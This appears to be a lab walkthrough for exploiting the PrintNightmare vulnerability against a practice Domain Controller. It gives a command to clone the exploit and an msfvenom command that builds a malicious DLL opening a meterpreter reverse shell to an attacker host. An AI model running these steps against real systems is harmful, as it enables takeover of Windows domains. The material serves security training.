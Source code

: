## Try it yourself!

To understand how the attack works and what logs and events are generated, you need to put the Black Hat on and run the attack on your own. But, of course, it requires permission from management to perform this attack in your employer's environment, even if it's an isolated environment.

Fret not, you can perform the attack against the attached virtual machine and not in your employer's environment.&#x20;

***

Follow the steps outlined below to exploit the Domain Controller using the Attack Box by exploiting the PrintNightmare vulnerability.&#x20;

In the sample terminal output below, the victim is `10.10.57.176`, and the attacker is `192.168.0.100`.&#x20;

Note: As a subscriber, launch the Attack Box if you haven't done so before proceeding. As a free user, this task should be completed on your local attacking machine.

Before proceeding, create 2 directories on the Desktop:

* `pn` - this will contain the exploit.
* `share` - this directory (/root/Desktop/share) will contain the malicious DLL that will be created with msfvenom. \
  \


Download CVE-2021-1675.py:

CloneCVE-2021-1675 exploit from GitHub

**Kali**

```shell-session
git clone https://github.com/tryhackme/CVE-2021-1675.git 
```

Before spinning up Metasploit, create the malicious DLL. \


Note: In the terminal outputs below the attacker is `192.168.0.100`.  You will need to replace `192.168.0.100` with your ATTACK BOX IP (or OpenVPN IP).\


You will use msfvenom to create the malicious DLL.&#x20;

Create maliciousDLLwith Msfvenom

**Kali**

```shell-session
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=$KALI LPORT=4444 -f dll -o /root/malicious.dll 
```

If you see a similar output when you run this command, then you should have successfully created the DLL.

Let's fire up Metasploit.
